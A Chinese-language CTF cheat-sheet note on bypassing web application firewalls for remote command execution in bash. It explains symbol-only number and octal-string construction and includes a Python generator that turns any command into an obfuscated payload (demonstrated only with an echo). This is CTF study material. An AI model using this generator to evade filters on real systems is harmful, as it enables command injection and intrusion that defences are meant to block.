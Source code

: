 tags:: RCE, CTFWEB/Shell/WAF绕过

- # 主要套路
	- 使用进制转换计算出数字
	- 使用数字构造出任意八进制形式的字符串
	- 使用`bash<<<'bash<<<字符串'`将字符串从八进制形式转为正常形式并执行
- # bash特性
	- 数字
		- bash可以通过`$((进制#数值))`的方式转换进制，比如说`$((2#100))`表示4
			- 其中进制和数值可以是其他的`$(())`，也可以是其他的字符串拼接而成
		- bash可以使用移位操作`1<<1`产生数字2
		- bash中`${#}`是一个值为0的变量，通过求长度`${##}`可以得到数字1
	- 字符串
		- bash中可以使用八进制表示字符串，比如`$'\154\163'`
			- 也就是`$'`加上以`\`开头的八进制，结尾加上`'`
	- 变量名
		- bash中`${!xxx}`可以将一个变量的值作为变量名
			- 比如如果`def=abc`且`abc=123`那`${!def}`等价于`${abc}`，其结果是123。
			- 所以`${!#}`取的是`${0}`，也就是`bash`字符串
			- 所以可以通过设置`__=$(())`的方式通过`${!__}`获取bash字符串
	- 命令执行
		- bash中可以通过`$0<<<"echo 1"`来执行命令
			- 可以使用`$0<<<$0\<\<\<"echo 1"`让bash二次解析，避免将整个字符串识别成命令名。
- # payload生成
	- ```python
	  def number(n):
	      if n == 0:
	          return "$((${!#}))"
	      elif n == -1:
	          return "$((~{n0}))".format(n0=number(0))
	      elif n == 1:
	          return "$((~$(($((~{n0}))$((~{n0}))))))".format(n0=number(0))
	      elif isinstance(n, int) and n < 0:
	          return "$(({}))".format("".join(number(-1) for _ in range(-n)))
	      elif isinstance(n, int) and n > 0:
	          return "$((~{}))".format(number(-n - 1))
	      else:
	          raise NotImplemented()
	  
	  
	  def bash_str_bang():
	      return "${!#}"
	  
	  def bash_str_dollarzero():
	      return "$0"
	  
	  def bash_str():
	      return bash_str_dollarzero()
	  
	  def binary_str(s):
	      """经过一次解析后得到只有0和1的字符串"""
	      assert all(c in "01" for c in s)
	      return s.replace("1", number(1)).replace("0", number(0))
	  
	  
	  def num(n: int):
	      """经过一次解析后得到一个数字"""
	      return f"$(($(({number(1)}<<{number(1)}))#{binary_str(bin(n)[2:])}))"
	  
	  
	  def string_by_hex(s: str):
	      d = {
	          "0": "0",
	          "1": "${##}",
	          "2": "$((${##}<<${##}))",
	          "3": "$(($((${##}<<${##}))#${##}${##}))",
	          "4": "$((${##}<<$((${##}<<${##}))))",
	          "5": "$(($((${##}<<${##}))#${##}0${##}))",
	          "6": "$(($((${##}<<${##}))#${##}${##}0))",
	          "7": "$(($((${##}<<${##}))#${##}${##}${##}))",
	      }
	      payload = "$\\'"
	      for c in s:
	          c = oct(ord(c))[2:].zfill(3)
	          payload += "\\\\" + "".join(d[dig] for dig in c)
	      return payload + "\\'"
	  
	  
	  def string_by_bin(s: str):
	      return "$\\'" + "".join(["\\\\" + num(int(oct(ord(c))[2:])) for c in s]) + "\\'"
	  
	  
	  def string(s: str):
	      """生成一个payload, 其经过两次解析后得到原有的字符串
	      经过一次解析：
	          "$\\'" -> "$'"
	          "\\\\" -> "\\"
	          数字payload -> 实际的数字
	          整个payload变成`$'\000\000'`的形式
	  
	      Args:
	          s (str): payload的值
	  
	      Returns:
	          str: payload
	      """
	      return string_by_hex(s)
	  
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(zero=bash_str(), cmd=string(cmd))
	  
	  
	  def echo_payload(cmd):
	      return "echo {zero}\\<\\<\\<{cmd}".format(zero=bash_str(), cmd=string(cmd))
	  
	  
	  print(payload("echo 114514"))
	  ```
-